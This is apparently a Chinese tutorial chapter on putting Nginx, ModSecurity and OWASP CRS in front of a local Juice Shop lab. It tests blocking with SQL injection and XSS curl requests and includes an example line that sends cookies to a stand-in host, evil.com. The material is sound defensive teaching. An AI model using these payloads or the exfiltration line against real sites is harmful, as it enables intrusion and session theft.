





# 第二章 能否在请求到达应用之前拦截部分攻击？

## 2.1 本章要解决的问题

上一章结束时，我们作为 CISO 看到了一个令人不安的事实：应用暴露在互联网上，恶意请求可以直接到达后端，中间没有任何拦截层。

CEO 问你："你不是说我们的系统不安全吗？那我们现在能做什么？"

这一章，我们要在攻击者和应用之间建立**第一道防线**。具体来说，本章结束后你应该能够：

- 区分 **Nginx**、**ModSecurity** 和 **OWASP CRS** 三者的职责。
- 理解 WAF（Web Application Firewall）的工作位置、检测与阻断机制。
- 解释请求经过代理、WAF 和应用的实际路径。
- 通过 SQL 注入和 XSS 对照实验，验证 WAF 的拦截行为。
- 从 HTTP 状态码、响应体和日志中确认检测与拦截发生在哪个层级。
- 理解 WAF 的能力边界：它解决什么问题，不解决什么问题。

## 2.2 安全控制的引入思路

在上一章中，我们的架构是：



攻击者的 HTTP 请求直接到达应用。这种架构存在一个根本问题：**请求到达应用之前，没有任何安全设备对其进行检测。**

如果我们要在请求到达应用之前建立一道防线，需要在两者之间插入一个中间层：



这个中间层需要做到：

1. **接收所有外部 HTTP 请求。** 它应该成为攻击者首先接触到的服务。
2. **分析请求内容。** 不仅仅是 IP 和端口，还要理解 URL、参数、Header 和 Body。
3. **判断请求是否恶意。** 如果是已知的攻击模式，在请求到达应用之前就拦截它。
4. **如果请求正常，转发给后端应用。** 安全设备不应该影响正常业务。

这就是 **WAF（Web Application Firewall，Web 应用防火墙）** 的职责。

## 2.3 WAF 是什么？

### 2.3.1 WAF 与普通防火墙的区别

这两个概念经常被混淆，但它们解决的问题完全不同。

**普通防火墙（L3/L4 Firewall）** 关心的是：

```
源 IP → 目标 IP:端口
```

它的典型判断逻辑是：

> "IP 10.0.0.100 能不能访问 10.0.0.20 的 80 端口？"

防火墙在传输层和网络层工作，主要基于 IP 地址、端口号和协议类型来决定允许或拒绝连接。

**WAF（L7 Firewall）** 关心的是：

```
HTTP 请求的内容
```

它的典型判断逻辑是：

> "这个 HTTP 请求的 URL、参数或 Body 中，是否包含已知的攻击模式？"

WAF 在应用层工作，需要理解 HTTP 协议的内容。

用一个类比来理解。假设攻击者发送了这样一个请求：

```
GET /rest/products/search?q=' OR 1=1 --
```

- **L3/L4 防火墙** 看到的是：`10.0.0.100 → 10.0.0.20:80，TCP 连接，允许。` 它看不到 `q=' OR 1=1 --`。
- **WAF** 看到的是：`GET 请求，URL 是 /rest/products/search，参数 q 的值是 ' OR 1=1 --，存在 SQL 注入特征。` 它可以拦截这个请求。

两者不是替代关系，而是**互补关系**。普通防火墙解决"谁可以连接"的问题，WAF 解决"连接过来后请求是什么"的问题。

### 2.3.2 WAF 的检测机制

WAF 检测攻击的核心方法是**规则匹配**。它将 HTTP 请求拆解为多个部分，逐一对比已知的攻击模式：

| 请求部分 | 示例 | WAF 关注什么 |
|---|---|---|
| URL 路径 | `/rest/products/search` | 是否存在路径遍历、目录穿越 |
| 查询参数 | `q=' OR 1=1 --` | SQL 注入、XSS、命令注入 |
| HTTP Header | `User-Agent: sqlmap` | 恶意爬虫、漏洞扫描器 |
| Cookie | `token=eyJ...` | 令牌操纵、注入 |
| Request Body | POST 数据 | SQL 注入、XSS、文件上传攻击 |
| HTTP 协议 | 请求格式 | 协议违规、请求走私 |

当 WAF 发现请求匹配到攻击规则时，它可以：

- **拦截模式（Prevention/Blocking）**：直接拒绝请求，返回 403 Forbidden。
- **检测模式（Detection Only）**：记录告警但不拦截，请求继续到达后端。这通常用于新部署 WAF 时观察误报率。

### 2.3.3 WAF 能检测和不能检测的攻击

WAF 的检测范围是有限的，明确这一点非常重要：

**WAF 能检测的：**
- SQL 注入（SQL Injection）
- 跨站脚本（XSS）
- 路径遍历（Path Traversal）
- 远程/本地文件包含（RFI/LFI）
- 远程命令执行/命令注入（RCE）
- HTTP 协议违规
- 恶意爬虫和漏洞扫描器
- PHP/Java/Node.js 注入

**WAF 不能检测的：**
- 端口扫描（这是网络层行为）
- DDoS 攻击（这是流量洪泛，不是单个恶意请求）
- 主机文件篡改（这是操作系统层行为）
- 加密流量内容（如果 WAF 无法解密）
- 0-day 漏洞利用（如果规则库尚未更新）

> **WAF 不是修复漏洞的替代品。** 如果应用存在 SQL 注入漏洞，WAF 只是在漏洞前面加了一层保护盾，但漏洞本身仍然存在。正确的做法是：修复应用漏洞 + WAF 作为额外防护层 + 持续监控。

## 2.4 实验环境：Nginx + ModSecurity + OWASP CRS

本章使用三个组件协同工作。理解它们各自的职责是避免混淆的关键。

### 2.4.1 三个组件分别负责什么

| 组件 | 类型 | 职责 |
|---|---|---|
| **Nginx** | Web 服务器 / 反向代理 | 接收 HTTP 请求，转发给后端应用 |
| **ModSecurity** | WAF 检测引擎 | 分析 HTTP 请求，执行安全规则，决定是否允许 |
| **OWASP CRS** | WAF 规则集 | 为 ModSecurity 提供数千条预定义的检测规则 |

三者的关系可以理解为：



ModSecurity 本身是一个检测引擎，它需要规则集才能工作。OWASP CRS（Core Rule Set）就是这套规则。如果没有 CRS，ModSecurity 就像一本没有内容的法律书——框架在，但没有具体条款。

> ModSecurity CRS 性能优化
> 每个请求会 “路过” 已启用规则的执行流，但约 700 条规则不会都对完整请求数据跑一遍。CRS 用多层闸门把昂贵匹配挡在尽量少的规则后面，多数请求只触发极少量真实匹配。

### 2.4.2 为什么使用 `owasp/modsecurity-crs:nginx` 镜像

Docker Hub 上的 `owasp/modsecurity-crs:nginx` 镜像已经预先集成了三个组件：

- Nginx 作为反向代理
- ModSecurity 作为 Nginx 的模块
- OWASP CRS 作为规则集

这避免了手工编译、安装和配置三个组件的复杂性，让我们专注于理解它们的工作原理，而不是安装过程的排错。

### 2.4.3 网络架构：DMZ 与内部隔离

查看 `lesson-02/docker-compose.yml`：

```yaml
networks:
  dmz-net:
    driver: bridge
  app-net:
    driver: bridge
    internal: true

services:
  nginx-modsecurity:
    image: owasp/modsecurity-crs:nginx
    container_name: nginx-modsecurity
    networks:
      - dmz-net
      - app-net
    ports:
      - "80:8080"
    environment:
      - BACKEND=http://juice-shop:3000
      - MODSEC_RULE_ENGINE=On
    depends_on:
      - juice-shop

  juice-shop:
    image: bkimminich/juice-shop:latest
    container_name: juice-shop
    networks:
      - app-net
    expose:
      - "3000"
```

这段配置实现了以下几个关键设计：

**1. 两个网络实现安全分区**

- `dmz-net`：WAF 所在的网络，对外暴露。
- `app-net`：后端应用网络，设置了 `internal: true`，意味着该网络的容器不能直接访问外部网络。

这体现了 **DMZ（Demilitarized Zone，非军事区）** 的思想：将对外暴露的服务与内部服务隔离开。即使 WAF 被攻破，攻击者也不能直接访问 `app-net` 之外的资源。

**2. WAF 是唯一的中间层**

- WAF（`nginx-modsecurity`）同时连接 `dmz-net` 和 `app-net`，是两个安全区域之间的桥梁。
- Juice Shop **只连接** `app-net`，不暴露任何端口到宿主机。

**3. 端口映射的变化**

- 上一章中，Juice Shop 的 3000 端口直接映射到宿主机（`"3000:3000"`）。
- 本章中，Juice Shop 使用 `expose: "3000"`，这意味着 3000 端口**只在 Docker 网络内部可达**。
- 外部访问通过 `80:8080` 映射到 WAF 的 8080 端口（容器内部监听端口），用户访问 `localhost:80`。

现在的架构是：



### 2.4.4 关键配置解释

**`MODSEC_RULE_ENGINE=On`**

这是 ModSecurity 的运行模式。`On` 表示拦截模式——匹配到恶意请求时直接返回 403。如果设置为 `DetectionOnly`，则只记录告警不拦截。

**`BACKEND=http://juice-shop:3000`**

这告诉 Nginx 把通过检测的请求转发到 Juice Shop。`juice-shop` 是 Docker Compose 中的服务名，在 `app-net` 网络中可以解析为容器 IP。

## 2.5 SQL 注入原理回顾

在动手实验之前，我们先理解 SQL 注入为什么会生效，以及 WAF 是如何检测到它的。

### 2.5.1 SQL 注入的工作机制

SQL 注入的本质是：**用户输入被当作 SQL 代码执行。**

假设应用的后端代码是这样写的（错误写法）：

```java
// 用户输入直接来自请求参数
String query = request.getParameter("q");
String sql = "SELECT * FROM products WHERE name LIKE '%" + query + "%'";
Statement stmt = connection.createStatement();
ResultSet rs = stmt.executeQuery(sql);
```

当用户正常搜索 `apple` 时，SQL 语句是：

```sql
SELECT * FROM products WHERE name LIKE '%apple%'
```

这是预期行为。

但如果用户输入 `' OR 1=1 --`，SQL 语句变成了：

```sql
SELECT * FROM products WHERE name LIKE '%' OR 1=1 --%'
```

分析一下这条语句的变化：

1. `'` 闭合了原有的字符串引号。
2. `OR 1=1` 构造了一个恒真条件，使得 WHERE 子句始终为真。
3. `--` 注释掉了后面残余的 SQL 代码（`%'`）。

结果：**查询返回所有产品数据，而不是搜索关键词的匹配结果。**

### 2.5.2 正确的防御方式：参数化查询

从根本上消除 SQL 注入的方法是**参数化查询（Parameterized Query）**：

```java
String query = request.getParameter("q");
String sql = "SELECT * FROM products WHERE name LIKE ?";
PreparedStatement pstmt = connection.prepareStatement(sql);
pstmt.setString(1, "%" + query + "%");
ResultSet rs = pstmt.executeQuery();
```

参数化查询的核心思想是：

- SQL 语句的结构（`SELECT ... WHERE name LIKE ?`）在**预编译阶段**就确定下来。
- `?` 占位符由数据库驱动作为**参数值**单独传递。
- 用户输入被当作**普通字符串数据**，无法改变 SQL 语句的结构。

**即使输入 `' OR 1=1 --`，数据库也只会把它当作搜索关键词**，即查找名字中包含 `' OR 1=1 --` 的产品——这显然不存在，返回空结果。

> **重要**：修复应用层的 SQL 注入漏洞应该首选参数化查询。WAF 是在应用层修复之外的一层额外保护，不是替代品。

### 2.5.3 WAF 如何检测 SQL 注入

WAF 在请求到达应用之前就看到了这个请求：

```
GET /rest/products/search?q=' OR 1=1 --
```

WAF 将 HTTP 请求解析为：

```text
Method:  GET
URL:     /rest/products/search
Parameter: q = ' OR 1=1 --
```

OWASP CRS 中的 SQL 注入规则会检测到参数 `q` 中包含典型的 SQL 注入特征：

- 单引号 `'`：可能是闭合 SQL 字符串的尝试
- `OR 1=1`：经典的恒真条件构造
- `--`：SQL 注释符

因此 WAF 可以在请求到达 Juice Shop 之前就拒绝它。

## 2.6 动手实验：验证 WAF 的拦截能力

### 2.6.1 启动实验环境

```bash
cd lesson-02
docker compose up -d
```

启动后，验证两个容器都正常运行：

```bash
docker compose ps
```

你应该看到 `nginx-modsecurity` 和 `juice-shop` 的状态均为 `Up`。

### 2.6.2 Step 1：正常请求（应通过 WAF）

首先确认正常业务不受影响：

```bash
curl -s -o /dev/null -w "%{http_code}" http://localhost:80/
```

**预期结果：HTTP 200。**

这意味着：

```text
客户端 → Nginx → ModSecurity（检测通过）→ Juice Shop → 响应返回
```

WAF 不仅应该拦截恶意请求，还应该允许正常请求通过。如果正常请求也被拦截了，说明 WAF 配置存在问题（误报），需要检查规则设置。

你也可以在浏览器中访问 `http://localhost:80`，应该能看到 Juice Shop 的首页。这确认了 WAF 没有破坏正常业务功能。

### 2.6.3 Step 2：SQL 注入攻击（应被 WAF 拦截）

现在发送一个 SQL 注入请求：

```bash
curl -s -o /dev/null -w "%{http_code}" \
  "http://localhost:80/rest/products/search?q=%27%20OR%201%3D1%20--"
```

URL 编码解码后，参数 `q` 的值是 `' OR 1=1 --`。

**预期结果：HTTP 403 Forbidden。**

为了确认拦截发生在 WAF 层而不是应用层，我们同时查看响应体：

```bash
curl -s "http://localhost:80/rest/products/search?q=%27%20OR%201%3D1%20--"
```

**预期结果：响应体包含 ModSecurity 的拦截页面**，类似：

```html
<html><head><title>Request Rejected</title></head><body>
Your request was blocked by ModSecurity...
</body></html>
```

这一步非常关键。它证明：

- 请求被 ModSecurity 识别为恶意请求。
- 请求**没有到达** Juice Shop（Juice Shop 不会返回 403 页面）。
- 拦截发生在应用之前。

如果返回 HTTP 200 且包含产品数据，说明 WAF 没有拦截。可能的原因：

- `MODSEC_RULE_ENGINE` 设置为 `DetectionOnly` 而不是 `On`。
- 规则集未正确加载。
- URL 编码不正确。

### 2.6.4 Step 3：XSS 攻击（应被 WAF 拦截）

XSS（跨站脚本）是另一种常见的 Web 攻击。攻击者将恶意 JavaScript 注入网页，在其他用户的浏览器中执行。

发送 XSS 请求：

```bash
curl -s -o /dev/null -w "%{http_code}" \
  "http://localhost:80/?q=%3Cscript%3Ealert(1)%3C/script%3E"
```

URL 编码解码后，参数 `q` 的值是 `<script>alert(1)</script>`。

**预期结果：HTTP 403 Forbidden。**

如果攻击者成功将这个脚本注入页面，当其他用户访问该页面时，浏览器会执行 `alert(1)`——这看起来无害，但同样的技术可以用于：

- 窃取用户的 Session Cookie：`document.location='http://evil.com/?c='+document.cookie`
- 冒充用户执行操作
- 重定向到钓鱼网站

OWASP CRS 中的 XSS 规则会检测到 `<script>` 标签并拦截请求。

### 2.6.5 Step 4：查看 WAF 审计日志

WAF 不仅拦截请求，还会记录审计日志。查看 ModSecurity 的日志：

```bash
docker compose logs nginx-modsecurity 2>/dev/null | grep -i "modsecurity\|denied\|blocked\|attack\|alert" | tail -10
```

**预期结果：你应该看到类似以下的日志条目：**

```
[timestamp] ModSecurity: Warning. Pattern match "(?i:(?:[\"'`]\\s*?\\w*?\\s*?or\\s*?\\w*?\\s*?[=]))" at REQUEST_URI. [file "..."] [id "942100"] [msg "SQL Injection Attack Detected via libinjection"]
[timestamp] ModSecurity: Access denied with code 403 (phase 2). ...
```

日志中的关键字段：

- `[id "942100"]`：触发规则 ID。942xxx 系列是 OWASP CRS 的 SQL 注入规则。
- `msg "SQL Injection Attack Detected"`：规则描述。
- `Access denied with code 403`：确认是 ModSecurity 主动拒绝了请求。
- `phase 2`：ModSecurity 在处理阶段 2（请求体阶段）进行的检测。

这些日志是 WAF 检测行为的**直接证据**。它们告诉我们：

1. 请求确实被 ModSecurity 分析了。
2. 请求匹配了 SQL 注入规则。
3. WAF 执行了拦截动作。

### 2.6.6 完整验证脚本

我们提供了一个完整的验证脚本 `attack.sh`，它自动执行上述步骤：

```bash
bash attack.sh
```

脚本输出示例：

```
============================================
  Lesson 02: WAF (Nginx + ModSecurity) Demo
============================================

[Step 1] 发送正常 HTTP 请求（应通过 WAF）...
  ✓ 正常请求通过 (HTTP 200)

[Step 2] 发送 SQL 注入请求（应被 WAF 拦截）...
  ✓ SQL 注入被拦截 (HTTP 403 — 403 Forbidden)
  拦截响应:
  <html><head><title>Request Rejected</title></head><body>
  Your request was blocked by ModSecurity...

[Step 3] 发送 XSS 请求（应被 WAF 拦截）...
  ✓ XSS 被拦截 (HTTP 403)

[Step 4] 查看 ModSecurity 审计日志...
  最近的拦截日志:
  ModSecurity: Access denied with code 403 (phase 2).
  ... SQL Injection Attack Detected ...
```

### 2.6.7 实验结果对比

将本章实验结果与第一章进行对比：

| 请求类型 | 第一章（无 WAF） | 第二章（有 WAF） |
|---|---|---|
| 正常请求 | 200，直达应用 | 200，经 WAF 转发 |
| SQL 注入 | 200，直达应用 | 403，WAF 拦截 |
| XSS | 200，直达应用 | 403，WAF 拦截 |
| 端口扫描 | 可达 | 不受 WAF 影响（WAF 不看网络层） |

## 2.7 深入理解：HTTP 状态码与证据来源

### 2.7.1 403 来自 WAF 还是应用本身？

这是实验中一个常见困惑：返回 403 就一定是 WAF 拦截的吗？

不一定。HTTP 403 是一个通用状态码，可能来自：

- **WAF（ModSecurity）**：检测到恶意请求，主动拒绝。
- **Nginx**：配置了访问控制或位置限制。
- **应用本身（Juice Shop）**：应用内部的权限检查。

**如何确认 403 来自 WAF？**

1. **响应体内容**：WAF 返回的 403 页面通常包含 "ModSecurity" 字样，而 Juice Shop 的 403 页面不会。
2. **WAF 日志**：ModSecurity 的审计日志会记录拦截事件。如果日志中没有对应条目，403 可能来自其他地方。
3. **关闭 WAF 验证**：如果把 `MODSEC_RULE_ENGINE` 设为 `Off` 或 `DetectionOnly`，再发送同样的请求。如果返回 200，说明确实是 WAF 拦截的。

我们在实验中通过步骤 2 的响应体和步骤 4 的日志完成了交叉验证。

### 2.7.2 200 状态码在不同场景下的含义

回顾上一章，同样的 SQL 注入请求在没有 WAF 时返回 200。两个 200 的含义完全不同：

- **第一章的 200**：请求到达 Juice Shop，应用处理了恶意输入并返回了结果。这说明请求已经**影响了后端应用**。
- **第二章正常请求的 200**：请求经过 WAF 检测后被判断为正常，WAF 将其转发给 Juice Shop，应用正常处理。

状态码本身不能告诉你请求是否恶意、是否被拦截。需要结合响应体、日志和配置来综合判断。

## 2.8 CISO 安全审计清单更新

部署 WAF 后，我们的安全审计清单发生了变化：

| 检查项 | 第一章状态 | 第二章状态 | 变化 |
|---|---|---|---|
| 应用可以访问 | ✅ 正常运行 | ✅ 正常运行 | 无变化 |
| 有 WAF 保护 | ❌ 无 | ✅ Nginx + ModSecurity + CRS | 已改善 |
| SQL 注入防护 | ❌ 无 | ✅ 403 拦截 | 已改善 |
| XSS 防护 | ❌ 无 | ✅ 403 拦截 | 已改善 |
| 正常流量不受影响 | N/A | ✅ 200 正常通过 | 已确认 |
| 有网络入侵检测 | ❌ 无 | ❌ 无 | 未改变 |
| 有主机监控 | ❌ 无 | ❌ 无 | 未改变 |
| 有日志分析 | ❌ 无 | ❌ 无 | 未改变 |

注意几个关键点：

1. **WAF 部署后，正常流量没有被破坏。** 这是一个非常重要的工程质量指标。安全设备不应该成为业务故障的来源。
2. **网络层和主机层的安全问题完全没有被解决。** WAF 只能看到它处理的 HTTP 请求。如果有人扫描端口 22、3306 或 8080，WAF 看不到这些行为。
3. **Juice Shop 本身的 SQL 注入漏洞仍然存在。** WAF 只是挡住了已知的攻击模式。如果攻击者使用 WAF 规则不认识的新技术，仍然可能绕过 WAF 到达应用。

## 2.9 能力边界与局限

### 2.9.1 WAF 只能看到 HTTP 流量

WAF 工作在 OSI 第 7 层（应用层），这意味着它需要理解 HTTP 协议才能工作。它看到的内容是：

```
HTTP Method
URL
HTTP Headers
Cookies
Query Parameters
Request Body
```

它**看不到**：

- 非 HTTP 协议（SSH、FTP、DNS 等）
- TCP/UDP 端口的连接尝试（端口扫描）
- 网络层的异常流量（DDoS）
- 主机内部的文件变化或进程行为

这解释了为什么 CISO 审计清单中"网络入侵检测"和"主机监控"仍然是红色的。WAF 解决了应用层的问题，但没有解决网络层和主机层的问题。

### 2.9.2 WAF 不修复应用漏洞

这是一个非常重要的安全思想：**WAF 是防护层，不是修复。**

如果 Juice Shop 存在 SQL 注入漏洞：

```text
应用漏洞 + WAF ≠ 漏洞消失
```

WAF 只是在漏洞前面加了一层保护。漏洞本身仍然存在。正确的安全工程思路是：

- [x] 修复应用漏洞（参数化查询）
- [x] WAF 作为额外防护层
- [x] 持续监控和检测
- [x] 事件响应能力

这被称为**纵深防御（Defense in Depth）**：不依赖单一控制点，多层防护互相补充。

### 2.9.3 WAF 规则需要更新

OWASP CRS 是基于已知攻击模式的规则集。这意味着：

- **新的攻击技术可能不被现有规则覆盖。** 如果攻击者发明了一种绕过 CRS 规则的 SQL 注入技术，WAF 不会拦截它。
- **规则库需要定期更新。** 就像杀毒软件需要更新病毒库一样，WAF 规则需要更新以覆盖新发现的攻击模式。
- **误报和漏报是固有的。** 规则太严格会影响正常用户（误报），规则太宽松会放行攻击（漏报）。

### 2.9.4 误报的风险

在拦截模式下，WAF 可能将正常请求误判为恶意请求。例如：

- 某个正常搜索请求恰好包含类似 SQL 关键字的字符串。
- 某个 API 的参数格式被规则误认为攻击模式。

这就是为什么生产环境中部署 WAF 时，通常先以**检测模式**运行一段时间，分析误报率后再切换到拦截模式。

### 2.9.5 实验环境与生产环境的差异

本章实验环境的特点：

- 只有单一的 WAF 实例和单一的后端应用。
- 没有 HTTPS（实验使用 HTTP）。
- 没有真实的互联网流量（只有手动发送的测试请求）。
- 没有负载均衡、CDN 或其他中间件。

生产环境中，WAF 部署需要考虑：

- TLS/SSL 终止和重新加密。
- 多实例高可用配置。
- 与 CDN 和负载均衡的协同。
- 更复杂的误报管理和规则调优。

实验验证的原理可以推广到生产环境，但实验本身不模拟生产环境的全部复杂度。

## 2.10 从网络架构角度理解 WAF 的位置

### 2.10.1 OSI 七层模型回顾

理解 WAF 工作在哪一层，需要回顾 OSI 七层模型：

```
Layer 7: Application Layer    — HTTP, HTTPS, DNS, SMTP, SSH
Layer 6: Presentation Layer   — 数据编码、加密、压缩
Layer 5: Session Layer        — 会话管理
Layer 4: Transport Layer      — TCP, UDP, 端口
Layer 3: Network Layer        — IP, 路由
Layer 2: Data Link Layer      — Ethernet, MAC 地址
Layer 1: Physical Layer       — 网线、光纤、无线信号
```

在实际工程中，大家更常讨论的是：

```
L7 — 应用层（HTTP）
L4 — 传输层（TCP/UDP 端口）
L3 — 网络层（IP）
```

### 2.10.2 不同安全设备看到的请求

假设攻击者发送了 `GET /search?q=' OR 1=1 --`：

**L3/L4 防火墙看到：**

```
Source IP: 10.0.0.100
Dest IP:   10.0.0.20
Protocol:  TCP
Dest Port: 80
```

判断："允许连接 80 端口。" ——但它看不到 `q=' OR 1=1 --`。

**WAF（L7）看到：**

```
GET /search?q=' OR 1=1 --
Method: GET
URL:    /search
Param:  q = ' OR 1=1 --
```

判断："参数 `q` 包含 SQL 注入特征，拒绝。"

这就是为什么 WAF 必须工作在 L7——它需要理解 HTTP 请求的内容才能检测应用层攻击。

### 2.10.3 纵深防御架构

结合我们已经部署和计划部署的安全控制，最终的安全架构是：



每一层解决不同的问题：

```
Firewall → 谁可以连接？
WAF      → HTTP 请求是不是恶意的？
NIDS     → 网络流量是不是异常的？
HIDS     → 主机发生了什么？
SIEM     → 这些事件放在一起意味着什么？
Dashboard → 整个安全态势是什么？
```

## 2.11 常见故障排查

### 2.11.1 容器无法启动

如果 `docker compose up -d` 后某个容器状态不是 `Up`：

```bash
# 检查具体容器的日志
docker compose logs nginx-modsecurity
docker compose logs juice-shop
```

常见原因：

- **端口冲突**：宿主机 80 端口被其他进程占用。使用 `lsof -i :80` 或 `sudo netstat -tlnp | grep :80` 检查。
- **依赖顺序问题**：WAF 依赖 Juice Shop。如果 Juice Shop 没有先启动，WAF 可能连接失败。`depends_on` 配置应该解决这个问题。
- **镜像拉取失败**：网络问题导致无法从 Docker Hub 拉取镜像。

### 2.11.2 正常请求返回 403

如果 Step 1 的正常请求也返回 403：

1. 检查 `MODSEC_RULE_ENGINE` 是否设置为 `On` 而不是过于严格的模式。
2. 查看 ModSecurity 日志确认拦截原因。
3. 确认请求路径是否触发了误报规则。

### 2.11.3 SQL 注入请求返回 200

如果 SQL 注入请求没有被拦截：

1. 确认 `MODSEC_RULE_ENGINE=On`（拦截模式），而不是 `DetectionOnly`。
2. 确认 OWASP CRS 规则集已正确加载。
3. 确认 URL 编码正确。`%27` = `'`，`%20` = 空格，`%3D` = `=`。

## 2.12 本章总结

回到 CEO 的问题。部署 WAF 后，你现在可以这样回答：

> **"攻击者正在攻击我们的 Web，你怎么办？"**
>
> 我们现在在 Web 应用前面部署了一道防线。SQL 注入和 XSS 等应用层攻击会在到达应用之前被 WAF 识别和拦截。但 WAF 不是万能的——它看不到网络层的端口扫描，看不到主机层的文件篡改。

本章的核心要点可以总结为：

1. **WAF 工作在 OSI 第 7 层（应用层），专门检测 HTTP 请求中的恶意内容。** 它和普通防火墙（L3/L4）解决的问题不同。
2. **Nginx、ModSecurity 和 OWASP CRS 各司其职：** Nginx 是反向代理，ModSecurity 是检测引擎，CRS 是规则集。三者缺一不可。
3. **WAF 不修复应用漏洞。** 它只是在漏洞前面加了一层保护。漏洞本身仍然存在，需要应用层修复。
4. **403 状态码本身不能证明是 WAF 拦截的。** 需要结合响应体内容和 WAF 日志来确认拦截层级。
5. **WAF 只能看到 HTTP 流量。** 端口扫描、DDoS、主机文件篡改等行为不在它的检测范围内。
6. **纵深防御意味着多层安全控制互相补充。** 没有任何单一工具能够覆盖所有安全风险。

## 2.13 练习与思考题

### 练习题

1. 在你的实验环境中，先用 curl 发送正常请求 `http://localhost:80/`，确认返回 200。然后发送 SQL 注入请求 `http://localhost:80/rest/products/search?q=' OR 1=1 --`，确认返回 403。查看 ModSecurity 日志，找到触发拦截的规则 ID。

2. 将 `docker-compose.yml` 中的 `MODSEC_RULE_ENGINE` 改为 `DetectionOnly`，重新启动 WAF。再次发送 SQL 注入请求，观察状态码和日志的变化。理解检测模式和拦截模式的区别。

3. 查看 WAF 容器的网络连接：`docker exec nginx-modsecurity ip addr`。确认 WAF 同时连接了 `dmz-net` 和 `app-net` 两个网络，而 Juice Shop 只连接了 `app-net`。这如何体现了 DMZ 的隔离思想？

### 思考题

4. 如果攻击者知道你的 WAF 使用 OWASP CRS，他可能如何尝试绕过？（提示：URL 编码变化、分块传输、HTTP 协议特性等。）

5. 假设你是 CISO，开发团队说"我们有 WAF 保护，SQL 注入漏洞不用修了"。你应该如何回应？

6. WAF 部署在 DMZ 中，Juice Shop 部署在内部网络。如果攻击者通过其他途径（如社工、凭据泄露）获得了 Juice Shop 的访问权限，WAF 还能保护它吗？这说明了什么安全原则？

### 拓展阅读

- [OWASP ModSecurity Core Rule Set](https://coreruleset.org/)：OWASP CRS 的官方文档，了解规则集的详细内容和更新机制。
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)：从应用层面防御 SQL 注入的最佳实践。
- [MITRE ATT&CK: Initial Access](https://attack.mitre.org/tactics/TA0001/)：攻击者初始访问阶段的技术分类，理解 WAF 在攻击链中可以拦截哪些技术。

---

> **下一章预告**
>
> 今天你在 Web 应用前面部署了 WAF。SQL 注入和 XSS 被成功拦截。CEO 看起来满意了一些。
>
> 但你心里清楚：WAF 只能看到 HTTP 请求。如果攻击者并不急着攻击 Web 应用，而是先对网络进行侦察——端口扫描、服务探测、寻找其他暴露的服务呢？
>
> WAF 看不到这些行为。因为它工作在 L7，只关心 HTTP。
>
> **第三章将解决：能否发现网络侦察行为？** 我们将部署 Suricata（NIDS，网络入侵检测系统），监控网络流量，识别端口扫描等网络层威胁。
